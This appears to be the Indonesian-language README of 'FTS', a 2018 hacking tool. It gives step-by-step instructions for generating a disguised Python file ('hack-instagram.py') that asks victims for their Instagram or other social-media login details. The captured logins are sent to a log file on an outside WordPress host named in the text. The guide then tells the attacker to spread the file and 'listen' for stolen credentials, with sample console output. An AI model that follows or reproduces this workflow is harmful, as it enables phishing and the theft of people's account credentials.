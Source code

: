 ############################################
<br>
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
<br>
CODENAME       : Python
<br>
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
<br>
CODED BY       : DERAY
<br>
FACEBOOK       : Deray
<br>
INSTAGRAM      : @reyy05
<br><br>
TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
<br>                                     
###########################################
<br><br>
(step satu)
<br><br>
membuat payload<br>
command contoh : SET PAYLOAD AkSIsrR.txt<br>
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!
<br><br>
(step dua)
<br><br>
memberi output(nama file payload nya<br>
command contoh : SET OUTPUT hack-instagram.py<br>
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py
<br><br>
(step tiga)
<br><br>
memberi nama query(akun apa yang ingin anda hack)<br>
command contoh : SET QUERY INSTAGRAM<br>
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY
<br><br>
(step empat)
<br><br>
memberi tanggal dan tahun<br>
contoh command : SET DATE 2018/08<br>
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08
<br><br>
(step lima)
<br><br>
generate<br>
command : generate<br>
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.
<br><br>
(step terakhir)
<br><br>
sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu
<br><br>
sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka<br>
command : listen
<br><br>
atau untuk contoh manual listening command:
<br><br>
fts> SET PAYLOAD AkSIsrR.txt<br>
PAYLOAD => AkSIsrR.txt<br>
fts> SET QUERY INSTAGRAM<br>
QUERY => INSTAGRAM<br>
fts> SET DATE 2018/08<br>
DATE => 2018/08<br>
fts> listen<br>
[*] listening..."<br>
[*] LISTENING TARGET......"<br>
ditunggu saja sampai korban memasukan log nya ^^<br><br><br>

bantuan command : help,?,show options


